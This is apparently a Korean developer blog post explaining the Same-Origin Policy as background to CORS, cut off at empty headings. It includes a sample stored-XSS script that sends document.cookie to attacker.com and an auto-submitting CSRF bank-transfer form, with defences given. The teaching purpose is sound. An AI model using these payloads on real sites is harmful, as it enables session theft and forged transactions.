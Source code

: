 ```yaml
---
title: CORS(Cross-Origin Resource Sharing) 이해하기
date: 2025-01-20 16:30:00 +09:00
last_modified_at: 2025-01-20 16:30:00 +09:00
categories: [Browser]
tags:
  [
    CORS,
    SOP,
    Browser
  ]
---
```


`CORS(Cross-Origin Resource Sharing)`는 서로 다른 출처간의 리소스를 공유하기 위한 매커니즘입니다.  
이러한 정책이 필요한 이유를 이해하기 위해 `SOP(Same-Origin Policy)`부터 시작하여 차근차근 정리해보겠습니다.

## SOP(Same-Origin Policy)
SOP(Same-Origin Policy, 동일 출처 정책)는 어떤 출처에서 로드된 문서나 스크립트등이 다른 출처의 리소스에 접근하지 못하도록 제한하는 중요한 보안 메커니즘입니다.  
이를 통해 악의적인 스크립트가 다른 출처의 민감한 데이터를 탈취하는 것을 방지합니다.

### SOP 정의
> SOP에서 `출처(Origin)`는 **프로토콜(protocol)**, **호스트(host)**, **포트(port)** 를 모두 포함한 개념입니다.  
> 즉, 프로토콜, 호스트, 포트가 동일하면 같은 출처(Same-Origin)라고 할 수 있습니다.

| ![URL 구성요소](https://github.com/user-attachments/assets/2add14b1-0e2e-498a-a9da-f5a4df3ffffd) |
|:--------------------------------------------------------------------------------------------:|
|                                *URL 구성요소*                                                    |
  
- 예시:
  - Origin: http://hajeonghun.com
    - http://hajeonghun.com/page1 → ✅ 포트가 생략되면 기본 포트기준으로 http 80이므로 동일 출처.
    - http://hajeonghun.com:80/page1 → ✅ 프로토콜, 호스트, 포트가 같으므로 동일 출처.
    - http://hajeonghun.com:3000/page1 → ❌ 포트가 다르므로 다른 출처.
    - https://hajeonghun.com:443/page1 → ❌ 프로토콜이 다르므로 다른 출처.
    - http://api.hajeonghun.com:80/page1 → ❌ 서브도메인이 다르므로 다른 출처.

### 초창기 웹의 역할과 보안 문제
1990년대 초 웹은 단순한 정적 문서 기반으로 시작되었으며, 보안에 대한 개념이 초기에는 크게 고려되지 않았습니다.

- 초기 웹의 특성:
  - HTML 문서와 이미지 등 단순 리소스를 가져오는 용도로 설계됨.
- 자바스크립트 등장:
  - 1995년 자바스크립트가 등장하며 클라이언트 측에서 동적 동작과 데이터를 처리할 수 있는 기능이 추가됨.
- 문제:
  - 초기에는 출처(Origin)에 대한 제약이 없었기 때문에 웹 페이지에서 다른 사이트의 데이터를 자유롭게 가져오거나, 악의적인 사이트가 민감한 정보를 탈취할 가능성이 있었습니다. (XSS, CSRF 등...)

### SOP 탄생배경
웹이 동적으로 발전하면서 같이 보안 문제도 증가하게 되었습니다. 이에 따라 잠재적으로 악의적인 사이트간의 격리를 통해 공격 가능성을 줄이기 위해 탄생하였습니다.
- 브라우저의 역할 확대:
  - 브라우저가 단순 문서 뷰어에서 클라이언트-서버 통신을 담당하는 플랫폼으로 발전하면서, 공격자가 자바스크립트를 이용해 민감한 정보를 훔치거나 서버에 무단 요청을 보내는 공격이 가능해짐.
- 보안 공격의 현실화:
  - XSS(Cross-Site Scripting): 공격자가 사용자 브라우저에서 악성 스크립트를 실행.
  - CSRF(Cross-Site Request Forgery): 공격자가 사용자의 인증 정보를 도용하여 악의적인 요청을 수행.
  - 이런 공격이 SOP가 없는 초기 환경에서는 매우 쉽게 이루어졌습니다.

   | 구분    | 	CSRF                                      | 	XSS                                       |  
    |-------|--------------------------------------------|--------------------------------------------|  
    | 공격 대상 | 	서버                                        | 	사용자                                       |  
    | 피해자   | 	인증된 사용자가 자신의 인증 정보를 기반으로 위조된 요청을 보내는 경우.	 | 웹사이트의 취약점을 악용하여 다른 사용자가 악성 스크립트를 실행하도록 유도. |

> 💡 SOP(Same-Origin Policy)만으로는 웹 보안을 완벽히 달성할 수 없으며, XSS와 CSRF를 방어하기 위해 별도의 보안 대책이 필요합니다.

### XSS(Cross-Site Scripting, 크로스사이트 스크립팅)
> XSS(Cross-Site Scripting, 크로스사이트 스크립팅)은 해커가 입력한 악의적인 스크립트가 클라이언트 측에서 실행되는 공격으로    
쿠키 값 또는 세션 등 사용자의 중요 정보를 탈취하거나 피싱 사이트로의 접근 유도 등 클라이언트 측에 직접적인 피해를 줄 수 있습니다.

| ![xss 공격](https://github.com/user-attachments/assets/07d1fa42-49c9-46d8-afbf-1dfee10b44d2) |
|--------------------------------------------------------------------------------------------|
| *Stored XSS (저장형 크로스사이트 스크립팅)*                                                             |

1. XSS 공격 시나리오 (SOP 도입 전)
   1. 공격자가 게시판과 같은 사용자 입력을 처리하는 사이트(예: http://hajeonghun.com)에서 악성 JavaScript 코드를 삽입한 게시물 작성
   2. 삽입된 코드는 사용자가 해당 페이지에 방문하여 게시물을 열람할 때 실행되어, 사용자의 쿠키(로그인 세션)를 공격자 서버로 전송
  

2. 공격 코드
```html
<!-- 공격자가 게시판에 삽입한 악성 스크립트 -->
<script>
  // 사용자의 쿠키를 공격자 서버로 전송
  fetch("http://attacker.com/steal-cookie", {
    method: "POST",
    body: JSON.stringify({ cookie: document.cookie }),
    headers: { "Content-Type": "application/json" }
  });
</script>
```


3. SOP가 없는 상황에서 발생 가능한 문제  
   - 브라우저는 document.cookie에 대해 출처를 제한하지 않으므로, 이 스크립트는 사용자가 현재 방문 중인 웹사이트(예: http://hajeonghun.com)의 쿠키에 접근할 수 있습니다.  
   - 공격자는 사용자의 로그인 세션을 탈취해 해당 사용자의 계정을 도용할 수 있습니다.

> 💡 SOP는 XSS 자체를 100% 방어하지 못하며, 이를 방어하기 위해서는 입력 검증(e.g., HTML 엔티티 인코딩, 정규식 검증) 및 **CSP(Content Security Policy)** 와 같은 별도의 보안 대책이 필요합니다.

### CSRF(Cross-Site Request Forgery, 사이트 간 요청 위조)
> CSRF(Cross-Site Request Forgery, 사이트 간 요청 위조)는 사용자가 의도하지 않은 요청을 신뢰할 수 있는 웹 애플리케이션에 보냄으로써 발생하는 보안 취약점입니다.  
공격자는 피해자의 인증 정보를 악용하여 서버에 권한이 있는 요청을 위조합니다.

| ![csrf 공격](https://github.com/user-attachments/assets/d3fc10a2-4056-434c-b85c-7b0a22b75839) |
|---------------------------------------------------------------------------------------------|
| *CSRF (사이트 간 요청 위조)*                                                              

1. CSRF 공격 시나리오 (SOP 도입 전)
   1. 사용자가 은행 사이트(예: http://bank.com)에 로그인한 상태에서, 공격자 사이트(예: http://attacker.com)를 방문
   2. 공격자 사이트는 사용자의 인증된 세션을 악용하여 은행 서버로 요청을 보냄


2. 공격 코드 
```html
<!-- 공격자가 자신의 악성 사이트(예: http://attacker.com)에 삽입 -->
<form action="http://bank.com/api/transfer" method="POST">
  <input type="hidden" name="to_account" value="1103109999">
  <input type="hidden" name="amount" value="30000000">
  <input type="submit" value="Click here to win a prize!">
</form>

<script>
  // 사용자가 버튼을 클릭하지 않아도 자동으로 폼 제출
  document.forms[0].submit();
</script>
```


3. SOP가 없는 상황에서 발생 가능한 문제
- 은행 사이트(예: http://bank.com)의 인증 쿠키는 SOP가 없기 때문에 자동으로 서버에 전송됩니다.
- 은행 서버는 요청이 신뢰할 수 있는 출처에서 온 것인지 확인하지 않고 처리합니다.
- 결과적으로 사용자는 알지 못한 채로 자신의 계좌에서 돈이 빠져나갑니다.

> 💡 SOP는 CSRF를 100% 방어하지 못합니다. CSRF 방어를 위해서는 CSRF 토큰, Referer 헤더 확인, 또는 SameSite 쿠키 설정 등의 추가적인 보안 메커니즘이 필요합니다.


### SOP의 주요 목적
### SOP가 해결한 보안 문제
### SOP의 한계와 이후의 확장
